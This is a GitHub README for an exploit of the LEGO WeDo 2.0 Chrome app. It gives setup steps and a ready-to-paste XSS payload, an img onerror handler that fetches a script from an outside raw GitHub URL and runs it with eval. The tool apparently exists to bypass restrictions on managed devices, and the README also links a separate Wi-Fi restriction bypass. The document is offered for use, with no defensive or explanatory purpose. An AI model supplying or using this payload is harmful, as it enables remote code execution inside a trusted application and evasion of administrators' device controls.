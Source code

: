 # BlobbypassLEGO
## LEGO WeDo 2.0 Webview Exploit that uses BlobbypassXSS

### Setup:
* First, install [WeDo 2.0 LEGO® Education](https://chromewebstore.google.com/detail/wedo-20-lego%C2%AE-education/pflionopdgpjckjkafnlamfmonjhccdh?hl=en-US) from the Chrome Webstore.
* Wait until it loads, then turn off your WiFi.
* Once you are in the project, click on the pencil in the top bar.
* Then, click the green document button.
* In the textbox, paste the following string:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Blobby-Boi/BlobbypassXSS/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
* Close LEGO WeDo 2.0 and re-enable your WiFi

### How to use (after Setup):
* Open LEGO WeDo 2.0
* Click the project you made when you were setting this up
* Press the pencil icon
* Done!
  
#### This does not bypass Wi-Fi restrictions. If you want to do that, do [Blobwifi](https://blobby-boi.github.io/Blobwifi/).
